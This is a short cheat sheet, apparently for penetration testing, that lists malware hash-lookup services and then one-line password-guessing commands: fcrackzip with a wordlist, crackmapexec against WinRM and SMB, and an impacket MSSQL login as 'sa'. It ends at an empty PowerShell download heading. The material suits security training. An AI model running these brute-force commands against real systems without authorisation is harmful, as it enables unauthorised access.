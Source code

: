 ### Software with different hash databases

```text
http://isc.sans.edu/tools/hashsearch.html
# dig +short md5 .md5.dshield.org TXT
Result = "filename I source" i.e. "cmd.exe I NIST"
```

### Malware hash database

```text
http://www.team-cymru.org/Services/MHR
# dig +short [MD5|SHA-1].malware.hash.cymru.com TXT
Result = last seen timestamp AV detection rate
Convert timestamp= perl-e 'print scalar localtime( timestamp ), "\n"'
```

### Search in metadata files

```text
https://fileadvisor.bit9.com/services/search.aspx
```

### Search the virustotal database

```text
https://www.virustotal.com/#search
```

## Guess the password of the zip file

```text
fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt secret.zip
```

## Guess the password of the winrm service

```text
crackmapexec winrm <IPS> -u <USERS> -p <PASSWORDS>
```

## Guess the password of the smb service

```text
crackmapexec smb <IP> -u <USER> -p <PASS> --shares
```

## Connect to mssql with impackt

```text
mssqlclient.py -port 1433 sa@10.10.10.10
```

## powershell download files
